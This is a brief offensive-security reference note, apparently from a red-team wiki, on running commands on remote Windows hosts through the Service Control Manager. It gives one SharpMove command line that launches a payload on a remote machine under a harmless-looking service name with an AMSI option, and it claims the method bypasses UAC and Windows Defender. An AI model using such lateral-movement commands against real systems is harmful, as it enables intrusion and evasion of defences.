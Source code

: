 # DCOM Exec


## SCM

**SCMExec** is a technique to execute commands on remote systems using the Service Control Manager (SCM) to create a service that runs the command. This method can bypass some security controls, such as User Account Control (UAC) and Windows Defender.

## Tools

- [[https://github.com/0xthirteen/SharpMove|**https://github.com/0xthirteen/SharpMove**]]:

SharpMove.exe action=scm computername=remote.host.local command="C:\windows\temp\payload.exe" servicename=WindowsDebug amsi=true

